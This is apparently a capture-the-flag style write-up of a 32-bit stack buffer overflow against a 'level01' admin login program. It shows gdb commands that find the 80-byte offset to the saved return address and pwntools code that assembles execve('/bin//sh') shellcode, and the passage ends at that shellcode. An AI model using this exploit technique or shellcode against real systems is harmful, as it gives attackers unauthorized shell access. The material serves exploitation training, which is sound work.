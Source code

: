 Now we have find the offset between the end of the buffer and the return address
```
(gdb) r < <(echo dat_wil; python -c "print('a'*80+'ABCD')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/users/level01/level01 < <(echo dat_wil; python -c "print('a'*80+'ABCD')")
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:

Breakpoint 1, 0x08048580 in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd720:
 eip = 0x8048580 in main; saved eip 0x44434241
```

The `saved eip` (the return address of the main) has successfully been overwritten with `0x44434241` (`'DCBA'`) using this prompt:
```bash
python -c "print('a' * 80 + 'ABCD')"
```
Which prints this output:
```
aaa...(80 total a)...aaaABCD
```

So we have 80 bytes to store our shellcode starting at `0xffffd6cc`, then we have 4 bytes for the return address that we have to replace by `0xffffd6cc`

Now we can craft our input, first let's traduce our shellcode in machine code, you can traditionally code a shellcode in c, compile it then use `objdump` to get the hexadecimal values of the machine code but in these exercises i'll use `pwntools` `python3 package` for simplicity purposes for crafting my entire inputs

First let's import the library
```python
#!/usr/bin/python
import pwn
```

Here is our asm shellcode
```python
hexcode = pwn.asm('''
                  xor eax, eax
                  xor ecx, ecx
                  xor edx, edx
                  xor edi, edi
                  xor esi, esi
                  
                  push edx
                  push 0x68732f2f
                  push 0x6e69622f
                  
                  mov ebx, esp
                  mov al, 0x0b
                  int 0x80
                  ''').hex()
```
